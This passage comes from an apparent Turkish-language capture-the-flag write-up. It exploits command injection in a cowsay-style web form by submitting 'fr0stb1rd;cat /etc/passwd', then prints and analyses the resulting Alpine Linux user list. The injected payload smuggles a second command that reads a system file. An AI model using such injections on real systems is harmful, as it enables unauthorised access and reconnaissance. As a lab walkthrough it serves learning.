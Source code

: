   `3.16.0` Alpine Linux sürümü. Bir bayrağı daha yakaladık. 

- Kullanıcı listesine bakalım: `fr0stb1rd;cat /etc/passwd`

  ![](https://i.ibb.co/NdcKDmNK/10-5.png)

  ```bash
  ___________ 
  < fr0stb1rd >
  ----------- 
          \   ^__^
          \  (oo)\_______
              (__)\       )\/\
                  ||----w |
                  ||     ||
  root:x:0:0:root:/root:/bin/ash
  bin:x:1:1:bin:/bin:/sbin/nologin
  daemon:x:2:2:daemon:/sbin:/sbin/nologin
  adm:x:3:4:adm:/var/adm:/sbin/nologin
  lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
  sync:x:5:0:sync:/sbin:/bin/sync
  shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
  halt:x:7:0:halt:/sbin:/sbin/halt
  mail:x:8:12:mail:/var/mail:/sbin/nologin
  news:x:9:13:news:/usr/lib/news:/sbin/nologin
  uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
  operator:x:11:0:operator:/root:/sbin/nologin
  man:x:13:15:man:/usr/man:/sbin/nologin
  postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
  cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
  ftp:x:21:21::/var/lib/ftp:/sbin/nologin
  sshd:x:22:22:sshd:/dev/null:/sbin/nologin
  at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
  squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
  xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
  games:x:35:35:games:/usr/games:/sbin/nologin
  cyrus:x:85:12::/usr/cyrus:/sbin/nologin
  vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
  ntp:x:123:123:NTP:/var/empty:/sbin/nologin
  smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
  guest:x:405:100:guest:/dev/null:/sbin/nologin
  nobody:x:65534:65534:nobody:/:/sbin/nologin
  apache:x:100:101:apache:/var/www:/sbin/nologin
  ```

  Bu listeyi analiz edersek:  

    - **Root Kullanıcısı:** `root` (UID = 0)  
    - **Servis Kullanıcıları:** `bin, daemon, adm, lp, sync, shutdown, halt, mail, news, uucp, operator, man, postmaster, cron, ftp, sshd, at, squid, xfs, games, cyrus, vpopmail, ntp, smmsp, guest, nobody, apache`  
      - Bunlar sistem servisleri için açılmış kullanıcılardır ve genellikle shell erişimi yoktur (`/sbin/nologin`).  
    - **Root Olmayan ve Servis Olmayan Kullanıcılar:**  
      - Listede herhangi bir gerçek kullanıcı (örneğin, normal bir insan kullanıcısı) görünmüyor.  
